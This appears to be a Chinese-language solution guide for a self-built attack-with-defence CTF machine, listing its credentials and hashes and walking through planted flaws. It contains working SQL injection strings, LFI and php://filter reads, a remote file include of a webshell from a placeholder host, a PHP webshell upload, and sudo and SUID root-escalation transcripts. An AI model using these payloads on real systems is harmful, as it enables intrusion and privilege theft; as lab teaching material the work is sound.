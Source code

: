 # AWD 模式攻击

## 凭证信息 (Credentials)

###### PS: (密码不是加密后的 hash ，用 hash 做的密码)
-   **Linux Root 用户:**
    ```
    T1: root:$1$DcI4hlB5$7Fzb9WR6XrBFwjHgBcpA61
    T2: root:$1$zu5fqmiV$hRUIt5Hp0LQwlBSDC5XuA0
    ```
-   **MySQL Root 用户:**
    ```
    T1: root:$1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    T2: root:$1$xDRC88E9$NuBtIeH1q2Xndltvfk0Wu0
    ```
-   **Linux welcome 用户:**
    ```
    T1: welcome:welcome
    T2: welcome:welcome
    ```
-   **WEB admin 用户:**
    ```
    T1: admin:babygirl94andrew10
    T2: admin:jeanjeandianacarolina
    ```
## FTP 服务

-   允许匿名登录。
-   家目录在 /var/ftp/ 目录下, 有welcome的凭据。
```
welcome !!!
are you welcome???
Lazy boy!!!
```
## Web 目录权限 (`/var/www/html/`)

-   权限设置为 `777` (可读、可写、可执行)。
-   **利用方式:** 结合 FTP 匿名上传权限，可以直接上传 PHP Webshell (例如 `shell.php`) 到 Web 根目录，实现远程代码执行 (RCE)。

## Web robots.txt 文件
-   **提示信息:** 在 `robots.txt` 文件中可以找到以下内容：
    ```
    User-agent: *
    Disallow: /xxxxx
    ```
    之后你可以看到
    ```
    噢，防止我忘记密码，我把密码放在这里一份

    pw: xxxxxxxx
    ```
    xxxxxxxx 将是 admin 用户的密码

## Web PHP 代码漏洞
-   login.php: SQL 注入漏洞
```
POST /login.php
username=admin' -- -&password=anything
```

-   dashboard.php: 文件上传漏洞
```
POST /dashboard.php HTTP/1.1
这里是没有检查文件类型，并且可以执行上传的 php 代码。 
```

-   game.php: LFI 漏洞
```
/games.php?game=../../etc/passwd 
/games.php?game=php://filter/convert.base64-encode/resource=config.php
结合 php://filter-chains 技术可实现 RCE /games.php?game=(php://filter-chains链)
推荐项目: 
https://github.com/synacktiv/php_filter_chain_generator.git
https://github.com/DingTom23/php-reverse-chains.git
```

-   ball.php: RCE 漏洞
```
/ball.php?debug=1&cmd=id
```

-   memory.php: Remote LFI 漏洞
```
/memory.php?theme=http://youraddress/webshell.php
```

-   puzzle.php: SQL 注入漏洞
```
/puzzle.php?check_username=admin' OR '1'='1
/puzzle.php?check_username=admin' UNION SELECT 1,2,3,4,5,6 FROM information_schema.tables WHERE '1'='1
```

-   snake.php: 文件读写漏洞
```
读取文件: /snake.php?admin=super&file=/etc/passwd
写入文件: 
POST /snake.php?admin=super
Content-Type: application/x-www-form-urlencoded

filename=shell.php&content=<?php system($_GET['cmd']); ?>
```

-   typing.php: PHP伪协议漏洞
```
/typing.php?load_wordlist=php://filter/convert.base64-encode/resource=config.php
```

## `welcome` 用户密码复用

-   `welcome` 用户的 Linux 登录密码与其用户名相同，均为 `welcome`。
-   **提示信息:** 在 `/home/welcome/note.txt` 文件中可以找到以下内容：
    ```
    From root@localhost:

        朋友，你的密码太弱了，一旦知道你的用户名，不久知道密码了吗？

                        To welcome@localhost
    ```
    这暗示了 `welcome` 用户名和密码相同。

## /home/welcome/.bash_history 文件
-   `welcome` 用户的 Bash 历史记录文件 (`/home/welcome/.bash_history`) 中包含了一些敏感信息。
-   **提示信息:** 在 `/home/welcome/.bash_history` 文件中可以找到以下内容：
    ```
    su -
    $1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    ```
    
## Sudo 滥用
-   www-data 用户:
```bash
root@dmsy-awd:~# sudo -u www-data sudo -l
Matching Defaults entries for www-data on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dmsy-awd:
    (welcome) NOPASSWD: /usr/bin/vi
```
    可以 !bash 提权

-   welcome 用户:
```bash
root@dmsy-awd:~# sudo -u welcome sudo -l
[sudo] password for welcome: 
Matching Defaults entries for welcome on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on dmsy-awd:
    (ALL) PASSWD: /home/*/backup.sh, /bin/zip
```
#### 提权路径
```bash
welcome@dmsy-awd:~$ mv backup.sh backup.sh.bak
welcome@dmsy-awd:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > backup.sh
welcome@dmsy-awd:~$ chmod +x backup.sh
welcome@dmsy-awd:~$ ls -la /tmp/bash 
-rwsr-sr-x 1 root root 1168776 Apr 23 10:43 /tmp/bash
welcome@dmsy-awd:~$ /tmp/bash -p
bash-5.0# id
uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)

welcome@dmsy-awd:~$ TF=$(mktemp -u)
welcome@dmsy-awd:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## SUID 提权
-   查找 SUID 可执行文件:

```bash
welcome@dmsy-awd:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/date
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/base64
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```
-  发现 data 和 base64 有 SUID 权限 

```bash
welcome@dmsy-awd:~$ LFILE=/root/root.txt
welcome@dmsy-awd:~$ date -f $LFILE
date: invalid date ‘flag{1998cbf9-1f88-11f0-a369-000c29094b2d}’

welcome@dmsy-awd:~$ base64 "$LFILE" | base64 -d
flag{1998cbf9-1f88-11f0-a369-000c29094b2d}
```

#### 后记
我靠，累死了，markdown 手写的，服务全部手搓。
幸好有伟大的 claude 给我写 php 代码，要不然我就死在这了。
要不然真的累死在这了。